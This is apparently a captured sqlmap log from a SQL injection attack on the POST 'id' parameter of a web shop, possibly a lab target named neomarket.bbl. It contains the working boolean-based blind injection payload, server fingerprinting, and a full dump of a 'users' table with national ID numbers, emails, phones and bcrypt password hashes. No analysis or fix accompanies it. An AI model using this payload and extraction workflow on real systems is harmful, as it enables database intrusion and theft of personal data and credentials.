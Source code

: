 ```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 7591=7591-- MlFi&cantidad=1&buy_articulo=Comprar
---
[09:07:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL 8
[09:07:18] [INFO] fetching columns for table 'users' in database 'shop'
[09:07:18] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[09:07:18] [INFO] retrieved: 8
[09:07:18] [INFO] retrieved: dni
[09:07:18] [INFO] retrieved: username
[09:07:19] [INFO] retrieved: password
[09:07:20] [INFO] retrieved: name
[09:07:20] [INFO] retrieved: mail
[09:07:20] [INFO] retrieved: phone
[09:07:21] [INFO] retrieved: image
[09:07:21] [INFO] retrieved: apellidos
[09:07:22] [INFO] fetching entries for table 'users' in database 'shop'
[09:07:22] [INFO] fetching number of entries for table 'users' in database 'shop'
[09:07:22] [INFO] retrieved: 2
[09:07:22] [INFO] retrieved: Jose
[09:07:22] [INFO] retrieved: Luis
[09:07:23] [INFO] retrieved: 12345676N
[09:07:23] [INFO] retrieved: uploads/12345676N-123456789_admin.jpg
[09:07:26] [INFO] retrieved: admin@neomarket.bbl
[09:07:28] [INFO] retrieved: $2y$10$eSNt.VwyKFUryoPxEJOZTu0OG8sux3S7G1nBF8VetEVIgeOp/q1gC
[09:07:33] [INFO] retrieved: 123456789
[09:07:33] [INFO] retrieved: admin
[09:07:34] [INFO] retrieved: diseo
[09:07:34] [INFO] retrieved: diseo
[09:07:34] [INFO] retrieved: 12345678Z
[09:07:35] [INFO] retrieved: uploads/12345678Z-123456799_diseo.png
[09:07:38] [INFO] retrieved: diseo@test.com
[09:07:39] [INFO] retrieved: $2y$10$JsTW/umdTGcd3ZgRd1jAoOB4UnTr5q9tjnYpvVZ.IM6I/jCbfDtxG
[09:07:44] [INFO] retrieved: 123456799
[09:07:45] [INFO] retrieved: diseo
Database: shop
Table: users
[2 entries]
+-----------+---------------------+---------------------------------------+-----------+--------+--------------------------------------------------------------+----------+-----------+
| dni       | mail                | image                                 | phone     | name   | password                                                     | username | apellidos |
+-----------+---------------------+---------------------------------------+-----------+--------+--------------------------------------------------------------+----------+-----------+
| 12345676N | admin@neomarket.bbl | uploads/12345676N-123456789_admin.jpg | 123456789 | Jose   | $2y$10$eSNt.VwyKFUryoPxEJOZTu0OG8sux3S7G1nBF8VetEVIgeOp/q1gC | admin    | Luis      |
| 12345678Z | diseo@test.com      | uploads/12345678Z-123456799_diseo.png | 123456799 | diseo  | $2y$10$JsTW/umdTGcd3ZgRd1jAoOB4UnTr5q9tjnYpvVZ.IM6I/jCbfDtxG | diseo    | diseo     |
+-----------+---------------------+---------------------------------------+-----------+--------+--------------------------------------------------------------+----------+-----------+

[09:07:45] [INFO] table 'shop.users' dumped to CSV file '/root/.local/share/sqlmap/output/neomarket.bbl/dump/shop/users.csv'
[09:07:45] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 1232 times
```